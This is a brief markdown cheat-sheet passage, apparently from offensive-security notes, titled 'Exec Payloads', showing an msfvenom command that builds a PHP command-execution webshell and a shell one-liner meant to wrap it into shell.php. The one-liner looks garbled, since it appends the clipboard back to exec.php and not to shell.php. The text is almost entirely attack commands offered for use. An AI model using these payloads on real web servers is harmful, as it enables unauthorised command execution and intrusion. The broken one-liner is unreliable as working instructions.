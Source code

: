 # Exec Payloads

## Execute Webshells Exec Payload

### 01 - PHP

```
$ msfvenom -p php/exec cmd="<commands>" -f raw -o exec.php

$ xclip -selection clipboard exec.php && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> exec.php
```
